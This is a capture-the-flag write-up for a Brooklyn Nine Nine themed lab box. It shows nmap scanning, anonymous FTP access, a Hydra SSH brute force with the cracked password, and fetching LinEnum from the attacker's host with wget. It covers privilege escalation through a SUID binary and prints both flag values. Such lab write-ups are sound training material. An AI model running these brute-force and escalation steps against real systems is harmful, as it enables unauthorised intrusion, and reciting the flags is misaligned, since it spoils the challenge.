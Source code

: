 

Start off with nmap default scripts (-sC), show versions (-sV) and output all formats (-oA).
`sudo nmap -sC -sV -oA nmap 10.10.136.175`

![Image 1][.attachments/Pasted image 20231123102936.png]
We have 3 ports
21: FTP server
22: SSH server
80: HTTP 

There is a file with a note for 'jake' on the FTP server and I can login anonymously. When prompted with a username, I can put 'anonymous' and leave the password empty when prompted (just press enter). 
After login, I can see there is a file there and can use the 'less' command to show the content of the text file: 
![[attachments/Pasted image 20231123103006.png)

I know now that user 'jake' has a weak password and that there are 3 users in total:
- jake
- amy
- holt
As seen in amy's message, it looks like the user holt is some sort of admin. 

After, I visited the webpage, where there is an image of Brooklyn nine nine, a television show. I googled the main character, who is called 'jake'. If I would not have found the note, I would have tried to use the username jake as well, but we know with the message on the FTP server we definitely have something here. We also find a note on the FTP server being stored there for Jake.

Now that we know the usernames, I can try to use Hydra to brute force into the SSH server. As only jake has a weak password, I will only try to brute force his credentials.

`hydra -l jake -P /usr/share/wordlists/seclists/Passwords/2020-200_most_used_passwords.txt 10.10.136.175 -t 4 ssh`

In the meantime, I also kick off a gobuster to see if we can find any other directories in the meantime.
`gobuster dir -u http://10.10.136.175 -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt`

The gobuster didn't result into anything, but Hydra did find a password for the user jake:
![[attachments/Pasted image 20231123103050.png)

I can now login to the SSH server with: 
Username: jake
Password: 987654321
`ssh jake@10.10.136.175`

We are now logged into the SSH server!
![[attachments/Pasted image 20231123103106.png)

I can now try to move to other folders. When I move up to the home directory, the folders for amy and holt are there. If we look into holt's directory and list all files, we find 
## Flag 1 user.txt: ee11cbb19052e40b07aac0ca060c23ee
![[attachments/Pasted image 20231123103128.png)

Now I need to escalate my privileges to find the root.txt flag.
I will start getting the LinEnum package onto the SSH server. The script I used [can be found here](https://github.com/rebootuser/LinEnum.git)
Next, I setup a local webserver from where I can grab the script from within the SSH server. First move back to jake's folder, as we don't have permissions in holt's folder.
On my local terminal: `python3 -m http.server`
On the SSH server: `wget 10.10.137.228:8000/LinEnum.sh`
I now have the file, but need to make it executable first with the following command:
`chmod +x LinEnum.sh`

All steps are in the following image:
![[attachments/Pasted image 20231123103141.png)

Now I can run the LinEnum script with:
`./LinEnum.sh`

After the enumeration, I can see that there is an interesting SUID file
![[attachments/Pasted image 20231123103201.png)

Looking at [GTFO bins](https://gtfobins.github.io/), there is an exploit I can try to run to get sudo privileges:
![[attachments/Pasted image 20231123103212.png)

After running the command, **we get root access**. To now stabelize the shell and to have autocomplete, I used the following command:
`python3 -c 'import pty;pty.spawn("/bin/bash")'`

After this, I was able to access the root directory and find the second and last flag:
### **root.txt: 63a9f0ea7bb98050796b649e85481845**
![[attachments/Pasted image 20231123103222.png)

Thanks for reading!

